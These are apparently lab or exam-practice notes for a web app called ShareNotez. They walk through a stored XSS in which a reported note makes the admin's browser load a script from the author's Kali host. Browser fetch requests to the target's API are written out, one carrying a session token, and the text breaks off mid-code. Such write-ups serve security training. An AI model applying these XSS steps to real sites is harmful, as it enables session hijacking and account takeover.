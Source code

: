 ![[ss-20250919-OSWA-Exam-ShareNotez-pic6.png]]
can see that our http server was hit and pulled the `xss2.js` file
- note that the `IP` is the address of my `kali` host
![[ss-20250919-OSWA-Exam-ShareNotez-pic7.png]]
now what happens when it get reported after logging out of the `test` user
![[ss-20250919-OSWA-Exam-ShareNotez-pic8.png]]
almost immediately after reporting it i get a hit with a `304` and `200` error - the `192.168.49.62` is my kali machine and the `192.168.62.62` is the victim machine which successfully hit my `xss2.js` file
![[ss-20250919-OSWA-Exam-ShareNotez-pic9.png]]
after this i was able to see `xss2.js` in the info 
![[ss-20250919-OSWA-Exam-ShareNotez-pic10.png]]
after reporting the notes to trigger the `xss` from the admin side it take a while to be reviewed
![[ss-20250919-OSWA-Exam-ShareNotez-pic11.png]]
at `5:07` thats when the admin triggers the payload after review so if the payload didnt work at that point 
![[ss-20250919-OSWA-Exam-ShareNotez-pic12.png]]


```bash
fetch("http://192.168.62.62/static/js/app.js", {
  "headers": {
    "accept-language": "en-US,en;q=0.9",
    "Referer": "http://192.168.62.62/login.php?msg=Please+login+to+continue"
  },
  "body": null,
  "method": "GET"
});
```

used `me` with a test note and right clicked -> generate fetch to generate a starting fetch command
![[ss-20250919-OSWA-Exam-ShareNotez-pic13.png]]
the fetch command that was displayed from the test note
```bash
fetch("https://192.168.62.62:8443/api/me", {
  "headers": {
	
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site",
    "sec-fetch-storage-access": "active",
    "cookie": "sessionToken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsb3Bob3N0cml4IiwiaXNBZG1pbiI6ImZhbHNlIiwiZXhwIjoxNzU4MzE1Nzc5LCJ1c2VySWQiOiIyMGY4YjExNy1kMzU0LTQ4MGYtODI3MC1kZWFmMGUwYmI2YmYiLCJ1c2VybmFtZSI6InRlc3QifQ.YWQO9qq3qSkRog3qMtUyzjJ2ZncdltI9nvRCj1tGNpg",
    "Referer": "http://192.168.62.62/"
  },
  "body": null,
  "method": "GET"
});
```
cleaning up the fetch 
```bash
fetch("https://192.168.62.62:8443/api/me", {
  "headers": {
    "accept": "*/*",
```